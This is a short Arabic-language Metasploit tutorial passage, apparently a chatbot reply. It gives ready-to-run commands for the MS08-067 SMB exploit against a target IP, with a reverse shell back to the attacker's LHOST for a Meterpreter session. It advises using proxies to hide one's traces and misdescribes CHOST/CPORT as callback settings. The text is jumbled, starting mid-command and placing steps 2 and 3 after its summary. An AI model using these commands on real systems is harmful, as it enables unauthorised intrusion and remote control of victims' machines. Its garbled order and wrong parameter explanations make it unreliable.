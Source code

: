 
    
    set VERBOSE true exploit`
    
هذا قد يعرض تفاصيل أكثر عن سبب فشل العملية.

### 🔥 **مثال عملي لتشغيل استغلال Reverse Shell**

```bash
use exploit/windows/smb/ms08_067_netapi  # اختر الثغرة
set RHOSTS 192.168.1.100                 # حدد الهدف
set RPORT 445                             # حدد المنفذ
set LHOST 192.168.1.50                    # جهازك لاستقبال الاتصال العكسي
set LPORT 4444                            # المنفذ اللي هتستقبل عليه الاتصال
set EXITFUNC process                      # إنهاء الجلسة بعد التنفيذ
exploit                                   # شغل الهجوم
```

**النتيجة؟** 🎯 الجهاز الهدف هيتخترق، وهتفتح معاك جلسة **Meterpreter** تقدر تتحكم بيها في الهدف.

🚀 **جاهز لأي استفسارات تانية!** 💻🔥
### خلاصة الكلام:

- **RHOSTS** = الجهاز اللي بتهاجمه.
- **RPORT** = الباب اللي هتدخل منه.
- **Proxies** = تخفي أثرك وانت داخل.
- **CHOST** = الجهاز اللي المستهدف هيتصل بيه بعد ما يتخترق.
- **CPORT** = الباب اللي الجهاز المخترق هيتصل بيك عليه.



2. بعد كده، عشان تضبط أي قيمة، استخدم **`set`** بالشكل ده:
    
    ```bash
    set RHOSTS 192.168.1.100
    set LHOST 192.168.1.50
    set LPORT 4444
    ```
    
3. بعد ما تظبط الإعدادات، شغل الهجوم بكتابة:
    
    ```bash
    exploit
    ```
    
